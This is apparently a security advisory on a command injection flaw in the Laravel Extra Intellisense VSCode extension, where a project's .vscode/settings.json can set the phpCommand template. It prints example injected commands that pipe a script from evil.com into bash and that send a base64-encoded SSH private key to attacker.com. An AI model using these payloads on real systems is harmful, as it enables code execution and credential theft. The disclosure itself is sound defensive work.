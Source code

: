 # Command Injection Vulnerability in Laravel Extra Intellisense

## Vulnerability name
Command Injection via phpCommand Configuration Setting

## Description
The Laravel Extra Intellisense extension executes PHP commands to extract information from Laravel projects for providing autocompletion features. The extension allows users to customize how PHP code is executed through the `LaravelExtraIntellisense.phpCommand` setting. This setting is read from the workspace configuration, which means it can be defined in a project's `.vscode/settings.json` file.

A malicious actor could create a Laravel project with a manipulated `.vscode/settings.json` file containing a crafted `phpCommand` value that injects arbitrary shell commands. When a developer opens this project in VSCode, the extension will execute the malicious commands automatically and repeatedly as it gathers information for autocompletion features.

The attack works as follows:
1. An attacker creates a malicious Laravel project with a `.vscode/settings.json` file
2. The configuration file contains a specially crafted `phpCommand` setting with injected commands
3. A developer opens the project in VSCode with the Laravel Extra Intellisense extension installed
4. The extension reads the malicious `phpCommand` setting from the workspace configuration
5. When the extension executes PHP code for autocompletion, it uses the malicious command template
6. The injected commands execute on the developer's system with their privileges

## Impact
This vulnerability allows arbitrary code execution on the developer's machine. An attacker could:
- Exfiltrate sensitive data (SSH keys, environment variables, credentials)
- Install malware or backdoors
- Access other projects and repositories on the system
- Pivot to other systems on the network

The code execution happens with the full privileges of the VSCode process, giving the attacker broad access to the developer's environment.

## Vulnerability rank
Critical

## Currently implemented mitigations
The extension does implement some escaping mechanisms for the PHP code that gets executed:
- Double quotes are escaped with backslashes
- On Unix-like platforms, dollar signs, single quotes, and double quotes are escaped

However, these mitigations only protect the PHP code parameter and not the command template itself.

The README does include a security note warning users that "This extension runs your Laravel application automatically and periodically," but it doesn't explicitly warn about the risks of opening untrusted projects.

## Missing mitigations
1. The extension should validate the `phpCommand` setting to ensure it matches expected patterns
2. Command sanitization to prevent injection of arbitrary shell commands
3. A prompt or warning when using a non-default `phpCommand` from workspace settings
4. An option to disable workspace-specific `phpCommand` settings in favor of user-level settings

## Preconditions
For this vulnerability to be exploited:
1. A user must have the Laravel Extra Intellisense extension installed in VSCode
2. The user must open a malicious Laravel project containing a crafted `.vscode/settings.json` file
3. The user must allow the extension to execute commands (which happens by default)

## Source code analysis
The vulnerability is in the `runPhp` function in `helpers.ts`:

```typescript
static runPhp(code: string, description: string|null = null) : Promise<string> {
  code = code.replace(/\"/g, "\\\"");
  if (['linux', 'openbsd', 'sunos', 'darwin'].some(unixPlatforms => os.platform().includes(unixPlatforms))) {
    code = code.replace(/\$/g, "\\$");
    code = code.replace(/\\\\'/g, '\\\\\\\\\'');
    code = code.replace(/\\\\"/g, '\\\\\\\\\"');
  }
  let commandTemplate = vscode.workspace.getConfiguration("LaravelExtraIntellisense").get<string>('phpCommand') ?? "php -r \"{code}\"";
  let command = commandTemplate.replace("{code}", code);

  // Execute the command with child_process.exec
  cp.exec(command, { cwd: /* project directory */ }, callback);
}
```

The key issues are:

1. The function reads the `phpCommand` setting from workspace configuration without validation
2. The command template can be anything, including malicious shell commands
3. While the PHP code is escaped, the template itself is used as-is
4. The command is executed using `child_process.exec`, which spawns a shell

For example, if an attacker sets the following in `.vscode/settings.json`:

```json
{
  "LaravelExtraIntellisense.phpCommand": "curl https://evil.com/c | bash; php -r \"{code}\""
}
```

When the extension runs PHP code, it will first download and execute a script from evil.com before running the actual PHP code.

The extension runs PHP commands frequently as it watches for file changes and updates autocompletion data, so these malicious commands would be executed repeatedly.

## Security test case
1. Create a new Laravel project with the following file structure:
   ```
   /test-project
     /app
     /bootstrap
     /config
     /...other Laravel files...
     /.vscode/settings.json
   ```

2. In the `.vscode/settings.json` file, add:
   ```json
   {
     "LaravelExtraIntellisense.phpCommand": "echo 'SECURITY_TEST: Command injection successful' > /tmp/vscode_test; php -r \"{code}\""
   }
   ```

3. Open the project in VSCode with the Laravel Extra Intellisense extension installed

4. Create or open a PHP file in the project and try to trigger autocomplete for a Laravel feature (e.g., type `view('` and wait for autocomplete to appear)

5. Check if the file `/tmp/vscode_test` was created and contains the message "SECURITY_TEST: Command injection successful"

If the file exists with the expected content, the vulnerability is confirmed. This demonstrates that arbitrary commands can be executed through the `phpCommand` setting.

For a more realistic attack, the injected command could be:
```
curl -s https://attacker.com/exfil?data=$(cat ~/.ssh/id_rsa | base64) > /dev/null; php -r "{code}"
```

This would silently exfiltrate the user's SSH private key to the attacker's server.
